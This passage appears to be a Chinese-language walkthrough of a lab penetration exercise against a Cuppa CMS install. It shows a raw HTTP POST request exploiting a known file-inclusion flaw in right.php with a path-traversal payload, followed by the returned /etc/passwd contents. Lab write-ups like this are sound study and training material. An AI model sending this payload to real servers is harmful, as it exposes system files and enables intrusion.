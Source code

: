     尝试输入`Database Name` = test，`Password` = test ,`Email` = `test@tets.com` ,点击`next`
    
    ![image.png](image%208.png)
    
    数据表创建成功，不过管理员用户创建失败，并且交互只有一个`back` ，这块也走不下去了
    
5. 想到Cuppa也是一个开源项目，我们去查阅一下有没有漏洞，因为我们不知道CMS版本，所以都可以尝试下
    - 经查阅法cuppa存在文件包含漏洞，并且很容易利用
        
        > [https://bugtoolz.com/post/cs132020723/](https://bugtoolz.com/post/cs132020723/)
        > 
        
        在`/target/templates/default/html/windows/right.php` 下存在一个`$_POST['url']` ,提交可以访问任意文件
        
    - 访问并抓包`/administrator/templates/default/html/windows/right.php` 因为是在`administator`目录安装的
    - 抓到包后测试读取`/etc/passwd` ，记得修改包请求方法，默认访问时GET需要改成POST
        
        ```php
        //req
        POST /administrator/templates/default/html/windows/right.php HTTP/1.1
        Host: 192.168.75.133
        ....
        url=../../	../../etc/passwd
        ```
        
        读取成功
        
        ```php
        //res
        root:x:0:0:root:/root:/bin/bash
        daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
        bin:x:2:2:bin:/bin:/usr/sbin/nologin
        sys:x:3:3:sys:/dev:/usr/sbin/nologin
        sync:x:4:65534:sync:/bin:/bin/sync
        games:x:5:60:games:/usr/games:/usr/sbin/nologin
        man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
        lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
        mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
        news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
        uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
        proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
        www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
        backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
        list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
        irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
        gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
        nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
        systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
        systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
        systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
        systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
        syslog:x:104:108::/home/syslog:/bin/false
        _apt:x:105:65534::/nonexistent:/bin/false
        messagebus:x:106:110::/var/run/dbus:/bin/false
        uuidd:x:107:111::/run/uuidd:/bin/false
        lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
        whoopsie:x:109:117::/nonexistent:/bin/false
        avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
        avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false